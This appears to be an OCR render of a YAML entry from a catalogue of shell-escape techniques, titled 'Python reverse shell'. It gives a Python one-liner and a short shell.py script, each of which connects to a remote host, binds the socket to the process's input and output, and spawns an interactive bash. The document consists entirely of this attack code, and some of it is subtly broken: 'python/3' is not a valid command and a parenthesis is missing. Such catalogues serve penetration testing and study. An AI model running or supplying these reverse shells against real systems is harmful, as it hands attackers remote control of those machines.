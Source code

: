 ```yaml
---
functions:
  shell:
    - description: Python reverse shell
      code: |

        python/3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.9",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

        
        Create a shell.py script and run with python/3 shell.py 10.1.1.246 9998:

        import socket,subprocess,os,sys
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((sys.argv[1],int(sys.argv[2]))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/bash","-i"])
---
```


